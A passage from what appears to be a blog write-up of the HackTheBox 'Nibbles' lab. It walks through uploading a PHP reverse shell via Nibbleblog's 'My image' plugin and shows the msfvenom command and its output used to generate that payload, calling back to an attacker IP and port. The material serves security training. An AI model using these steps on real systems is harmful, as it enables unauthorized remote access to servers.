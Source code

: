 ![](https://github.com/rsecke/rsecke.github.io/blob/main/assets/htb/nibbles/nibbleblog%20plugin%20page.png)

Navigate to the `My image` plugin and click `Configure` on the bottom of the plugin.

![](https://github.com/rsecke/rsecke.github.io/blob/main/assets/htb/nibbles/nibbleblog%20image%20plugin.png)

The exploit was very easy to exploit. Create a PHP reverse shell payload and upload it to this plugin. I used `msfvenom` to create the payload.

```
┌──(tyco㉿4YE)-[~/htb/nibbles/scans]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.15 LPORT=4444 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3052 bytes
```

![](https://github.com/rsecke/rsecke.github.io/blob/main/assets/htb/nibbles/uploading%20php%20shell.png)
